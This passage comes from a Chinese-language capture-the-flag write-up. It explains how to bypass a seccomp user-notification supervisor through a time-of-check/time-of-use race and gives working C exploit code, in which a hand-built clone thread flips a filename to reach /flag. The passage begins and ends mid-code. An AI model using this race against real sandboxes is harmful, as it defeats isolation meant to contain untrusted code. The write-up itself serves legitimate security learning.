 ```c
		:"=a"(fd)
		:"0"(sys_open),"D"(filename),"S"(flags),"d"(mode)
        : "rcx", "r11", "memory"
	);
	while(1){
		char buffer[64]={};
		int size=read(fd,buffer,64);
		write(1,buffer,size);
		if(size<64){
			break;
		}
	}
	return 0;
}
```

## 为什么要打开 /flag 😡 - 都是 seccomp 的错

题目的代码写明了它修改自 Crate.io 上的 greenhook 库，和 [它的源码](https://www.taoky.moe/greenhook/src/greenhook/lib.rs.html) 对比可以发现 `continue_syscall` 上的 `unsafe` 和注释消失了。而这便提示我们，如果我们打开的路径在 Supervisor 检查和内核处理之间发生变化的话，那么便可以绕过 Supervisor 的检查。可以参考 [这段文档](https://man.archlinux.org/man/seccomp_unotify.2.en#Design_goals;_use_of_SECCOMP_USER_NOTIF_FLAG_CONTINUE)。不过具体实现上需要注意，由于现代 libc 里面的 `pthread_create` 使用的 `clone3` 系统调用并没有被允许，所以我只能手搓一个 `clone` 系统调用来起线程修改文件名。代码如下：

```c
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdatomic.h>
#define _SCHED_H 1
#define __USE_GNU 1
#include <bits/sched.h>
#include <linux/sched.h>

char filename[7]="./elag";

int blinker(void*ptr){
	while(1){
		filename[2]='f';
		atomic_thread_fence(memory_order_seq_cst);
		filename[2]='e';
		atomic_thread_fence(memory_order_seq_cst);
	}
}

int main(){
    void *child_stack = malloc(4096);
	clone(&blinker,child_stack+4096,CLONE_VM | CLONE_FS | CLONE_FILES | CLONE_SYSVSEM
			   | CLONE_SIGHAND | CLONE_THREAD
			   | CLONE_SETTLS | CLONE_PARENT_SETTID
			   | CLONE_CHILD_CLEARTID
			   | 0,NULL);
	int i=0;
	while(i<100){
		int fd=open(filename,O_RDONLY);
		atomic_thread_fence(memory_order_seq_cst);
		while(1){
			char buffer[64]={};
			int size=read(fd,buffer,64);
			write(1,buffer,size);
			if(size<64){
				break;
```